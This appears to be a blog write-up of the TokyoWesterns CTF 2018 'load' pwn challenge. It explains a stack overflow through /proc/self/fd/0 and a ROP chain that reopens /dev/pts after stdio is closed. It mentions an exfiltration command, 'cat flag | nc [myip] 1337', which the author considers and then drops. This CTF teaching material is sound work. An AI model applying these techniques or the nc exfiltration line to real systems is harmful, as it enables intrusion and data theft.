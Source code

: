 ```yaml
---
layout: post
title: "TokyoWesterns CTF 2018 - load (pwn)"
description: ""
date: 2018-09-03
tags: [ctf, pwn]
comments: true
---
```


> host : pwn1.chal.ctf.westerns.tokyo

> port : 34835 (Solves: 49, 208 pts)

> [load][load] [+exploit.py][exploit]

This challenge runs a binary that is a **Load file Service**, which allows you to read any file on the system, which it will open and write the file contents to a buffer on the stack. The `filename` that we enter is limited to 128-bytes and is placed in a variable in the bss section, we should take note of that. From this description, it is quite obvious that we are going for a stack-based buffer overflow which will allow us to control the saved RIP on the stack, as long as the file read is larger than the buffer size, it will overflow. 

## Controlling RIP

This brings the question of what file to read, since we do not control any files on the challenge server, and even though we could overflow it by reading some arbitrary big file in the system, if we do not control its contents, we are unable to significantly control execution flow of the program to get a flag. The solution is to read a file we CAN control, `/proc/self/fd/0`. This file is a symbolic link created for each process which allows us to read data from the terminal, fd 0 refers to STDIN while fd 1 would be STDOUT, thus if we read from fd 0, we can send a ROP chain to overflow the buffer.

```
Load file Service
Input file name: /proc/self/fd/0
Input offset: 0
Input size: 100
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Load file complete!
Segmentation fault (core dumped) <= YAY
```


## No Leaks?

So now that we are able to control execution flow, I notice the next issue. Right before main returns, there is a call to `close_fd()`, which closes the file descriptors for STDIN, STDOUT and STDERR. What this means is that we will no longer be able to read data from the user or print data to the screen.

{% highlight C %}
int close_fd()
{
  close(0);
  close(1);
  close(2);
  return;
}
{% endhighlight %}

This is an issue as generally, we assume that 99% of CTF pwn challenges have ASLR enabled, thus the libc will be mapped to a random address space for each execution of the binary. This either forces us to leak the libc address so we can call functions that are not in the PLT (PLT functions have a static addresses) or only use functions present in the PLT. The PLT actually contains `open`, `read`, and `puts`, so we actually do not need to leak the libc base address to read the flag, however we still need STDOUT to be open to see the flag on our side. So I thought of two solutions.

1) If we can find the appropriate gadgets, maybe we could run `execve` with syscalls and run a command like `cat flag | nc [myip] 1337` which would give us the flag. But I was unable to find any syscall gadgets, and ths would be a very difficult operation to do with only syscalls

2) Find some way to reopen STDOUT

I settled with the second way as it's probably easier.

## Reopening STDOUT

After a file descriptor is closed, the file descriptor will be "free'd" and the next call to the `open` syscall would return the lowest free file descriptor possible. Since `close_fd()` closed file descriptors `0, 1, 2`, our next three calls to `open` would return these file descriptors. If you run `strace` on a program calling `puts`, you will notice that a puts call for example `puts("Load file complete!")` is actually just `write(1, "Load file complete!", 19)     = 19`. This is useful as now we know that the second file we open to will be written to by the puts call. If we can somehow read from that file from our remote connection, we can see the flag. After knowing this I did some googling and tried random files like `/dev/tty` after seeing shellcodes like [this][shellcode], but tty didn't work, I think it's because we aren't in a terminal. Trying to call open on `/proc/self/fd/1` wouldn't work as after the fd is closed, so is the file. After messing around, I realised that `/proc/self/fd/1` is just a symlink to another file `/dev/pts/?`. I tried opening the correct `/dev/pts/?` twice so that fd 1 == `/dev/pts/?` with a simple puts ROP chain and it worked!

## Finishing up

Now that we know we can leak, we just have to write a simple ROP chain to open the flag file and read it back to ourselves. The ROP chain I used did the following `open("/dev/pts/?") * 2 => open("/home/load/flag.txt") => read(3(flag), 0x601000(random bss addr), 10000)`, using our `filename` buffer in the bss to store filenames for the three files, since it has a static address. And we get the flag! Just a note, `/dev/pts/?` has question mark as it seems that the pts our connection uses keeps changing, but changing it randomly between 0-3 seemed to work reliably enough for my purposes. Also, there weren't easy gadgets for a `pop rdx` instruction for the third argument in the `read` call, so I had to use `csu_init` which helps to set my rdx register.

`TWCTF{pr0cf5_15_h1ghly_fl3x1bl3}`

[load]:{{site.baseurl}}/ctf/TokyoWesterns18/load/load
[exploit]:{{site.baseurl}}/ctf/TokyoWesterns18/load/exploit.py
[shellcode]: http://shell-storm.org/shellcode/files/shellcode-219.php